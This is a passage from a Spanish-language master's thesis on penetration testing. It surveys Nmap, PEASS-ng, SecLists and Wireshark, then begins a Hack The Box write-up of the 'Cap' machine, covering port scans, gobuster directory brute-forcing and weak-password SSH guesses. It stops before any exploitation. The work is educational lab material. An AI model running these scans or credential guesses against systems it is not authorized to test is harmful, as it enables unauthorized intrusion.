    
\includegraphics[width=0.65\textwidth]{images/sections/tools/nmap-help.png}
    \caption{Parte de la ayuda de \textit{Nmap}}
    \label{fig:nmap-help}
\end{figure}

Algunos ejemplos de uso son:

\begin{lstlisting}[language=bash]
nmap -v -A scanme.nmap.org
nmap -v -sn 192.168.0.0/16 10.0.0.0/8
nmap -v -iR 10000 -Pn -p 80
\end{lstlisting}

    \subsection{PEASS-ng}
    \textit{PEASS}\cite{peas} (figura \ref{fig:peass-logo}) son las siglas de \textit{Privilege Escalation Awesome Scripts}. \textit{PEASS} es un conjunto de herramientas utilizadas para la escalada de privilegios en los sistemas \textit{Windows}, \textit{Linux/Unix} y \textit{Mac OS}. Estas herramientas buscan por posibles caminos para la escalada de privilegios local que se puedan explotar. El resultado los imprime con diversos colores para que se puedan visualizar de manera sencilla las distintas fallas de configuración.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.35\textwidth]{images/sections/tools/peass.png}
    \caption{Logo de \textit{PEASS-ng}}
    \label{fig:peass-logo}
\end{figure}

Se denomina \textit{\textbf{WinPEAS}}\footnote{\href{https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS}{Web de \textit{WinPEAS}}} a las herramientas utilizadas para la escalada de privilegios en sistemas \textit{Windows}. Los scripts para \textit{Windows} se pueden encontrar en formato \texttt{.exe} y \texttt{.bat}.\\

\textit{\textbf{LinPEASS}}\footnote{\href{https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS}{Web de \textit{LinPEAS}}} es el script utilizado para la escalada de privilegios en sistemas \textit{Linux/Unix} y \textit{Mac OS} (automáticamente el script detecta si es un sistema \textit{Mac}). Como se puede ver en la siguiente figura (figura \ref{fig:linpeas-help}), \textit{linPEAS} tiene diversas opciones para su uso.

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/tools/linpeas-help.png}
    \caption{Ayuda \textit{linPEAS}}
    \label{fig:linpeas-help}
\end{figure}

A continuación se muestra un extracto de la salida del script (figura \ref{fig:linpeas-out}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/tools/linpeas-out.png}
    \caption{Extracto de la salida de \textit{linPEAS}}
    \label{fig:linpeas-out}
\end{figure}

    \subsection{SecLists}
    \textit{SecLists}\cite{seclists} es una colección de múltiples tipos de listas usadas en durante los análisis de seguridad. Entre las listas se incluyen nombres de usuarios, contraseñas, \acrshort{url}s, patrones de información sensible, payloads para fuzzing y más.\\

El directorio cuenta en actualidad con un tamaño de 2.5 GB y más de 5400 listas.

    \subsection{Wireshark}
    \textit{Wireshark}\cite{wireshark} (figura \ref{fig:wire-logo}) es el analizador de tráfico de red más importante y más utilizado. \textit{Wireshark} permite observar el trafico de red en tiempo real y lo muestra en un formato legible para las personas. Cuenta con una gran cantidad de filtros y características, como detectar rápidamente problemas de red como latencia, actividad sospechosa y paquetes caídos. También puede profundizar en el tráfico y descubrir la causa raíz de un problema. Por lo general, los administradores de red usan \textit{Wireshark} para resolver los problemas de latencia causados por los equipos utilizados para enrutar el tráfico alrededor del mundo y para monitorizar los intentos de exfiltración de datos en las operaciones comerciales.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.30\textwidth]{images/sections/tools/wireshark-logo.png}
    \caption{Logo de \textit{Wireshark}}
    \label{fig:wire-logo}
\end{figure}

\textit{Wireshark} consta de un amplio conjunto de funciones que incluye lo siguiente:

\begin{itemize}
    \item Captura en vivo y permite análisis fuera de línea
    \item Análisis completo de \acrshort{voip}
    \item Permite leer/escribir en muchos formatos de archivo de captura diferentes
    \item Captura archivos comprimidos y descomprímalos sobre la marcha
    \item Inspecciona profundamente cientos de protocolos
    \item Utiliza una interfaz de usuario cómoda e intuitiva
    \item Funciona en \textit{Linux}, \textit{Windows}, \textit{Mac OS X} y \textit{FreeBSD}
    \item Tiene potentes filtros de visualización
    \item La salida se puede exportar a \textit{XML}, \textit{CSV}, \textit{PostScript} o como texto sin formato
\end{itemize}

En la siguiente figura (figura \ref{fig:wire-example}), se puede ver un ejemplo de captura de red.

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/tools/wire-example.png}
    \caption{Captura de red con \textit{Wireshark}}
    \label{fig:wire-example}
\end{figure}

    \newpage
    \section{Máquina 1: \textit{Cap}}
    Esta sección se realizará la máquina de \acrlong{htb} llamada \textit{Cap}\cite{cap}. \textit{Cap} es una máquina de dificultad ``fácil``.

\subsection{Reconocimiento}
En la fase de reconocimiento hemos encontrado la información de la máquina en la propia página principal\cite{cap} de la misma. Se ha encontrado que es una máquina \textit{Linux} y que su IP es \texttt{10.10.10.245}.\\

Dado que es un \acrshort{CTF}, no se ha visto la necesidad de indagar más en esta fase.

\subsection{Enumeración}
El primer paso realizado en la enumeración es usar la herramienta \textit{Nmap}\cite{nmap}. Para ello se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
nmap -p- --min-rate 10000 -o 00_nmap_ports.txt 10.10.10.245
\end{lstlisting}
El argumento \texttt{-p-} para hacer un escaneo de todos los puertos; \texttt{--min-rate 10000} se ha utilizado para indicar a \textit{Nmap} que como mínimo envíe 10000 paquetes por segundo; por último, el argumento \texttt{-o ports.txt}, que es utilizado para guardar la salida en un archivo llamado \textit{00\_nmap\_ports.txt}.\\

Tras la ejecución del comando, se han encontrado los puertos 21/\acrshort{tcp}, 22/\acrshort{tcp} y 80/\acrshort{tcp} abiertos. Con este resultado\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/00_nmap_ports.txt}{Output de \textit{00\_nmap\_ports.txt}}}, de nuevo ejecutamos \textit{Nmap} para sacar información sobre los servicios que se están ejecutando en cada puerto.\\

Se ha utilizado el siguiente comando:
\begin{lstlisting}[language=bash]
sudo nmap -p 21,22,80 -sS -sCV 10.10.10.245 -o 01_nmap_services.txt
\end{lstlisting}

Esta vez, el comando \texttt{-p} recibe los puertos obtenidos con el comando anterior, es decir, los puertos 21, 22 y 80 \acrshort{tcp}. Se ha decidido hacer un escaneo de tipo \textit{Stealth}, ya que es la manera más rápida y popular para escanear en el protocolo TCP; para ello se ha utilizado el argumento \texttt{-sS}. Se ha utilizado el comando \texttt{-sCV} para obtener información sobre el servicio habilitado en el puerto (\texttt{-sV}) y para realizar el escaneo con los scripts por defecto de \textit{Nmap} (\texttt{-sC}). Por último, también se ha decidido guardar la salida del comando en un archivo (argumento \texttt{-o} llamado \textit{01\_nmap\_services}.txt.\\

Tras la ejecución\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/01_nmap_services.txt}{Output de \textit{01\_nmap\_services.txt}}} se ha encontrado que, efectivamente, la máquina es un sistema \textit{Linux}, concretamente con el sistema operativo \textit{Ubuntu}. Como era de esperar, en el puerto 21/\acrshort{tcp} se ha encontrado un servidor \acrshort{ftp}, está corriendo \textit{vsftpd}\cite{vsftpd} en la versión 3.0.3. En el puerto 22/\acrshort{tcp} está levantado un servidor \acrshort{ssh}, está utilizando \textit{OpenSSH}\cite{openssh} versión 8.2p1. Por último, en el puerto 80/\acrshort{tcp} un servidor \acrshort{http} \textit{Gunicorn}\cite{gunicorn}.\\

En este fase, también se ha decidido utilizar la herramienta \textit{Gobuster}\cite{gobuster} en la web, para encontrar endpoints no accesibles a primera vista. Para ello, se ha utilizado el siguiente comando:
\begin{lstlisting}[language=bash]
gobuster dir -u http://10.10.10.245 -w ~/Hacking/SecLists/Discovery/Web-Content/raft-large-words.txt | anew 03_gobuster.txt
\end{lstlisting}
Se ha elegido el argumento \texttt{dir} para realizar una búsqueda de directorios mediante fuerza bruta; el flag \texttt{-u} es el utilizado para pasar la \acrshort{url} que vamos  a escanear; el argumento \texttt{-w} se utiliza para pasarle a \textit{Gobuster} una lista de palabras para utilizar. En este caso se ha decidido usar la lista \textit{raft-large-words.txt} de \textit{SecLists}\cite{seclists}. Por último, el resultado de \textit{Gobuster} se ha decidido pasar a la herramienta \textit{anew}\cite{anew} porque también se ha realizado el mismo comando pero con la lista \textit{raft-large-directories.txt}.\\

Como resultado\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/02_gobuster.txt}{Output de \textit{02\_gobuster.txt}}} se han encontrado las siguientes \acrshort{url}'s:
\begin{itemize}
    \item \texttt{/data}
    \item \texttt{/ip}
    \item \texttt{/capture} (redirecciona a \texttt{/data/16})
    \item \texttt{/netstat}
\end{itemize}

\subsection{Ganar acceso}

Lo primero que se ha intentado es acceder al servicio \acrshort{ssh} con contraseñas débiles, como \textit{admin:admin}, \textit{admin:Passw0rd} o \textit{admin:123456}, pero ninguna ha dado resultado.\\

Acto seguido se ha decidido investigar la web. Al abrir la página web (\texttt{http://10.\\10.10.245}), lo primero que encontramos es un dashboard (figura \ref{fig:cap}-a). Vemos que ya estamos logeados como \textit{Nathan}, y que algunos de los botones no funcionan, como \textit{Message} y \textit{Settings}.\\

También se ha investigado las pestañas del menú lateral izquierdo. Encontramos información de la red en los apartados \textit{IP Config} (figura \ref{fig:cap}-b) y \textit{Network Status} (figura \ref{fig:cap}-c).\\

\begin{figure}
    \centering
    \subfloat[\centering \textit{Cap: Dashboard (\texttt{http://10.10.10.245/})}]{{
\includegraphics[width=0.80\textwidth]{images/machines/cap/web-dashboard.png} }}%
    \qquad
    \subfloat[\centering \textit{Cap: IP Config (\texttt{http://10.10.10.245/ip})}]{{
\includegraphics[width=0.80\textwidth]{images/machines/cap/web-ip.png} }}%
    \qquad
